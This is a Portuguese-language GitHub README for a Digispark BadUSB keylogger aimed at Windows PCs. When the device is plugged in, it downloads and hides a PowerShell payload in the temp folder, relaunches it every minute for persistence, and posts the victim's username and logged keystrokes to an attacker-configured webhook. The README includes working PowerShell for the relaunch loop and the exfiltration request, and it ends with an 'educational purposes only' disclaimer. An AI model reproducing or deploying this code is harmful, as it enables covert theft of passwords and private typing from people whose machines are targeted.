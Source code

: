 #  Digispark KeyLoggerHooker
```


 ██▓     ▒█████   ▄████  ██▓ ▄████▄  
▓██▒    ▒██▒  ██▒██▒ ▀█▒▓██▒▒██▀ ▀█  
▒██░    ▒██░  ██▒██░▄▄▄░▒██▒▒▓█    ▄ 
▒██░    ▒██   ██░▓█  ██▓░██░▒▓▓▄ ▄██▒
░██████▒░ ████▓▒░▒▓███▀▒░██░▒ ▓███▀ ░
░ ▒░▓  ░░ ▒░▒░▒░ ░▒   ▒ ░▓  ░ ░▒ ▒  ░
░ ░ ▒  ░  ░ ▒ ▒░  ░   ░  ▒ ░  ░  ▒   
  ░ ░   ░ ░ ░ ▒ ░ ░   ░  ▒ ░░        
    ░  ░    ░ ░       ░  ░  ░ ░      
                            ░        


```

## Overview:
```
Script feito para Digispark, em que plugado no pc (Windows) baixa e executa um payload com a função de Keylogger
```
+ Baixa o arquivos necessários na pasta **$env:temp**
+ Secretamente executa c.cmd, que por sua vez carrega o payload ***(p.ps1)***
+ O arquivo **l.ps1** fica encarregado de reexecutar o payload a cada 1 minuto  como mostrado abaixo:

```c
for(;;) {
    try {
     # invoca o scritpt 
     $proc = Get-Content "$env:temp/DdBPKCytRe"
     Stop-process -id $proc -Force
     powershell Start-Process powershell.exe -windowstyle hidden "$env:temp/p.ps1"
    }
    catch {

    }
   
    # espera um minuto
    Start-Sleep 60
   }

```
* Após a execução  script envia uma requisição HTTP para um servidor WebHook configurado pelo atacante no arquivo **p.ps1**
```c
# COLOQUE O LINK DO WEBHOOK AQUI
$webhook = "https://webhook.site/Seu-ID"

# Escreve um PID
$PID > "$env:temp/DdBPKCytRe"

# Função do Keylogger
function KeyLogger($logFile="$env:temp/$env:UserName.log") {

  # Formata a requisição que será enviada para o webhook
  $logs = Get-Content "$logFile" | Out-String
  $Body = @{
    'username' = $env:UserName
    'content' = $logs
  }
  Invoke-RestMethod -Uri $webhook -Method 'post' -Body $Body

  # Gera um aquivo de log 
  $generateLog = New-Item -Path $logFile -ItemType File -Force
...
```
## Créditos:
[PrettyBoyCosmo/DucKey-Logger](https://github.com/PrettyBoyCosmo/DucKey-Logger) codigo que me baseei para adaptação para digispark 

[Gadotti/DigisparkScripts](https://github.com/Gadotti/DigisparkScripts) Caso tenha problemas com letras ou sinais em função do teclado, recomendo esse git com a formatção de todas as teclas no teclado **PTBR-ABNT2**


## 
## *Este código é apenas para fins educacionais!! Não me responsabilizo pelo mau uso do mesmo.*
